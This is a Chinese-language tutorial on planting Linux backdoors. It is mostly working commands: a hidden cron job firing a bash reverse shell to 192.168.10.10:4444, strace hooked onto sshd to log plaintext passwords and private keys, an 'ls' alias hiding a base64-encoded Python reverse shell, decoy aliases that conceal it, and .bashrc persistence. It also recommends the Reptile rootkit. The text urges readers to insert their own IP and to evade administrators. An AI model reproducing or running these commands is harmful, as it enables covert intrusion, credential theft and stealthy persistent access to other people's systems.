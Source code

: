 

## **定时任务cron反弹后门**

cron后门，主要就是利用系统的定时任务功能实现反弹shell。

编辑后门反弹
这里创建一个.隐藏文件，然后在隐藏文件中添加反弹shell的地址及端口，在给脚本添加一个执行权限。
```
vim /etc/.backshell.sh

#!/bin/bash
bash -i >& /dev/tcp/192.168.10.10/4444 0>&1

chmod +x /etc/.backshell.sh
```

添加定时任务
设定每分钟自动执行该脚本。
```
vim /etc/crontab
*/1 * * * * root /etc/.backshell.sh
```
查看反弹
在攻击机上监听本地的4444端口，来等待反弹shell执行。
```
nc -lvvp 4444
```
查看流量
可以去目标主机上查看一下端口连接情况，可以看到是存在4444端口的连接的。
```
netstat -ant
```
^
## **监控密码strace后门**
strace是个功能强大的Linux调试分析诊断工具，可用于跟踪程序执行时进程系统调用(system  call)和所接收的信号，尤其是针对源码不可读或源码无法再编译的程序。

在Linux系统中，用户进程不能直接访问计算机硬件设备。当进程需要访问硬件设备(如读取磁盘文件或接收网络数据等)时，必须由用户态模式切换至内核态模式，通过系统调用访问硬件设备。strace可跟踪进程产生的系统调用，包括参数、返回值和执行所消耗的时间。若strace没有任何输出，并不代表此时进程发生阻塞；也可能程序进程正在执行某些不需要与系统其它部分发生通信的事情。strace从内核接收信息，且无需以任何特殊方式来构建内核。

而且strace可以当作一个键盘记录的后门。

#### 监控记录sshd明文密码
这里首先记录密码，等待用户下次使用ssh进行连接，连接后就会在你设置的这个目录中存储明文密码。
```
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)  
记录ssh登录密码存储到/tmp/.sshd.log文件中。

grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log  
查看这个文件。
```
这里使用筛选来查找就是为了更加的方面查找到密码，否则可以去看看，该文件中登录一次的内容都很多，靠肉眼很难查找到。

#### 记录sshd私钥
```
(strace -f -F -p ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'} -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)  
这里也是同样的记录私钥到该文件中。

grep ‘PRIVATE KEY’ /tmp/.sshd.log  
读取私钥。
```

缺点：
这个命令文件存在一个很大的问题就是，会一直记录登陆的字节流，可以去查看一下文件，这个文件会越来越大，所以如果真实环境下，还是少用该方式吧，避免由于文件占用过大，导致硬盘报警，从而被发现。
ls -al /tmp/.sshd.log


^
## **后门命令重命名Alias后门**
alias在Linux中主要是用于设置命令的别名，比如当你设置ls等于ls -al的时候就可以使用alias来实现。
PS：该手法在重启后就不再生效了。

基础使用：
```
alias ls='ls -al'  ##设置别名
ls
unalias ls   ##删除别名
```

后门使用：
将ls设置为反弹shell
```
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.10.10/4444 0>&1; };alerts'

nc -lvvp 4444
```
这里执行ls后会成功执行命令，但是存在一个很大的问题就是ls命令会卡死，无法操作，只有攻击者将会话结束，才能够恢复。

反弹python的shell
这里其实就是调用python的模块来执行，利用socket反弹一个shell，同时这里是使用bash64进行加密了，届时修改的时候，可以将该密文中的IP地址及端口修改为自己的即可。
```
alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'' "sys.version_info[0]")))";};alerts'
```




#### 持久化
这里就是保证系统在重启后依旧能够生效。

修改文件嵌入命令
```
vim /etc/upload  #将下面的三个后门命令写入

alias ls='alerts(){ ls $* --color=auto;python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'' "sys.version_info[0]")))";};alerts'

alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'

alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'
```


.bashrc是用户级的bash配置文件，每个使用bash shell的用户登录时都会加载这个文件。
```
vim ~/.bashrc
在最后面写入
if [ -f /etc/upload ]; then
 . /etc/upload
fi

这段命令检查/etc/upload文件是否存在，如果存在，就执行该文件中的命令。这会导致上面设置的后门别名在用户的shell会话中生效。
```


^
## **内核加载LKM-Rootkit后门**
内核级后门，Rootkit 可能提供多种功能，如：
* 隐藏进程、文件和网络连接。
* 提供后门访问。
* 记录按键和监控用户活动。

正常情况下Linux的后门多数都是使用msf来建立连接，但是这些连接都会被运维人员发现，所以我们想有一个非tcp连接、流量不容易被怀疑的后门，并且在大量的shell的场景下，可以管shell，Reptile刚好是种LKM rootkit，因此具有很好的隐藏性和强大的功能。
Reptile安装到目标机，通过命令实现各种隐藏功能。



隐藏进程：
隐藏后门连接：
隐藏文件：
文件名中带reptile的都会被隐藏
```
mkdir reptile_file
ls -l     无显示
cd reptile_file 有
```
^
关于Rootkit的查杀非100%：
linux平台下：Gscan、chkrootkit、rkhunter、OSSEC、zeppoo
Windows平台下:BlackLight、RootkitRevealer、Rootkit Hook Analyzer